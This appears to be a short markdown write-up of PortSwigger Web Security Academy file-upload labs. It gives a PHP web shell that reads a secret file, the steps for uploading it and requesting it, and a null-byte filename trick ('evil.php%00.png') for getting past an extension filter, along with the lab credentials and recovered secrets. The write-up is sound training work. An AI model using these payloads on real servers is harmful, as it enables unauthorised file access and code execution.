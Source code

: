 # File upload vulnerabilities

Get details at [here](https://portswigger.net/web-security/file-upload)

Type of file upload vulnerabilities attack:
 - Malicious Files
 - Public File Retrieval 

---

[Lab 1](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload): File upload remote code execution via web shell upload

Description of this lab: log in to your own account using the following credentials: wiener:peter, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner

Using this PHP script to make file evil.php

```php
    <?php 
        echo file_get_contents('/home/carlos/secret'); 
    ?>
```

Log in with wiener:peter, uploading evil.php at upload avatar. After uploading file, modify URL like `example.com/files/avatars/evil.php`, see its response `zSkiPK4JTu7lRHsDH7P0ExrgGoWZnDsr`. Go back home and submit secret, and solved the lab.

[Lab 2](#)

[Lab 3](#)

[Lab 4](#)

[Lab 5](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension): File upload web shell upload via obfuscated file extension

Description of this lab: obfuscation technique to bypass defense (only upload JPG or PNG file)

It seems has filtered extension name of uploaded file, do the same as lab 1, but we need to change file name to `evil.php%00.png` (%00 meaning null (NUL in ASCII), when file is uploaded, system can not understand this, then it removes part after %00, then file name will be evil.php). We got secret `rakmOG0R8Z69H8eQEahqObm8nuSsf3r7`, go back home and submit, then solved the lab.